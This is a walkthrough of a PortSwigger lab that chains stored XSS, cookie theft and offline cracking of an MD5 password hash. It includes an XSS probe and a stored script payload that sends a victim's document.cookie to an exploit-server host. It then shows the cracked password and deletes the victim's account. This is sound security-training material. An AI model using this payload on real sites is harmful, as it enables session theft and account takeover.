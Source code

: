 # Offline password cracking

## Description

[This lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking) stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality.

## Reproduction and proof of concept

1. With Burp running, use your own account to investigate the **Stay logged in** functionality. the `stay-logged-in` cookie is a [Base64 encoded MD5 hash](https://crackstation.net/).
2. In the **Proxy -> HTTP history** tab, go to the Response to your login request and highlight the `stay-logged-in` cookie, to see that it is constructed as follows:

```
username+':'+md5HashOfPassword
```

3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS with:

```text
<img src=1 onerror=alert(1) />
```

4. Go to the exploit server and make a note of the URL.
5. Go to one of the blogs and post a comment containing the following stored XSS payload, remembering to enter your own exploit server ID:

```
<script>document.location='https://exploit-0ada00b603793ec2c37f6a5601690033.exploit-server.net/'+document.cookie</script>
```

6. On the exploit server, open the access log. There should be a GET request from the victim containing their `stay-logged-in` cookie.
7. Decode the cookie in Burp Decoder. The result will be:

![Auth](/_static/images/auth11.png)

8. Copy the hash and paste it into a search engine. This will reveal that the password is `onceuponatime`.

![Auth](/_static/images/auth12.png)

9. Log in to the victim's account, go to the **My account** page, and delete their account to solve the lab.

## Exploitability

An attacker will need to obtain Carlos's `stay-logged-in` cookie and use it to crack his password;then log in as `carlos` and delete his account from the "My account" page. 
